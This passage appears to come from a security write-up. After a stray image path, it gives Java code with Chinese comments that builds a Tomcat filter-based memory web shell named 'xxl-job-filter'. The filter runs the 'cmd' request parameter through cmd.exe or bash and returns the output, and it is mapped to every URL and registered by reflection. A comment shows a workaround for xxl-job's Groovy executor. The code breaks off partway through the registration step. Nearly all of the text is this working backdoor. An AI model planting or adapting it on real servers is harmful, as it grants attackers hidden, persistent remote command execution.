 ```plain
        String filterName = "xxl-job-filter";
        // 1.创建filter
        Filter filter = new Filter() {
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                HttpServletResponse resp = (HttpServletResponse) servletResponse;
                if (req.getParameter("cmd") != null) {
                    // 由于xxl-job中的groovy不支持new String[]{"cmd.exe", "/c", req.getParameter("cmd")};这种语法，使用ArrayList的方式绕过
                    ArrayList<String> cmdList = new ArrayList<>();
                    String osTyp = System.getProperty("os.name");
                    if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                        cmdList.add("cmd.exe");
                        cmdList.add("/c");
                    } else {
                        cmdList.add("/bin/bash");
                        cmdList.add("-c");
                    }

                    cmdList.add(req.getParameter("cmd"));
                    String[] cmds = cmdList.toArray(new String[0]);

                    Process process = new ProcessBuilder(cmds).start();
                    InputStream inputStream = process.getInputStream();
                    BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream, "UTF-8"));
                    String line;
                    while ((line = reader.readLine()) != null) {
                        servletResponse.getWriter().println(line);
                    }
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest, servletResponse);
            }

            public void destroy() {

            }
        };

        //2. 创建一个FilterDef 然后设置filterDef的名字，和类名，以及类
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(filterName);
        filterDef.setFilterClass(filter.getClass().getName());

        //3. 创建一个filterMap
        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(filterName);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        //4. 创建ApplicationFilterConfig构造函数
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);

```